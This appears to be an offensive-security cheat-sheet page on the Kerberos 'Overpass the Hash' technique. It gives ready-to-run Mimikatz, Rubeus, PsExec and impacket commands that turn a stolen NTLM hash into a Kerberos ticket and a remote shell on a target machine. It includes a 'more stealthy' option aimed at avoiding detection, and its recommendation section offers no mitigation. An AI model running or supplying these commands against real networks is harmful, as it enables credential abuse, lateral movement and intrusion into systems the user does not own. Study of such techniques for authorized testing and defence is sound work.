 # Overpass the Hash
---

## Vulnerability

If you get the NTLM hash of a domain user, you can use it to request a Kerberos TGT. It is particularly useful in environements where NTLM is not enabled to lateralize through Kerberos authentication.

## Prerequisites

* Having the NTLM hash of a domain user.
* This user must have appropriate permissions on the target machine.

## Exploit

From Windows.

```powershell
# With Mimikatz.
sekurlsa::pth /user:$username /domain:$domain /ntlm:$hash /run:powershell

# TGT Kerberos ticket will be generated at this moment.
net use \\$target

# Using Rubeus (add /ptt if you directly want to inject the ticket in your current session).
.\Rubeus.exe asktgt /domain:$domain /user:$username /rc4:$hash /nowrap

# More stealthy since RC4 is deprecated.
.\Rubeus.exe asktgt /domain:$domain /user:$username /aes256:$hash /opsec /nowrap

# Now you can use PsExec.
.\PsExec.exe \\$target $cmd
```

From Kali.

```bash
# Get TGT with impacket.
impacket-getTGT $domain/$username -hashes :$hash

# Now you can use PSExec.
impacket-psexec $domain/$username@$target -k -no-pass
```

## Recommendations

- [ ] Nothing to do here, it is the normal behavior of Kerberos protocol.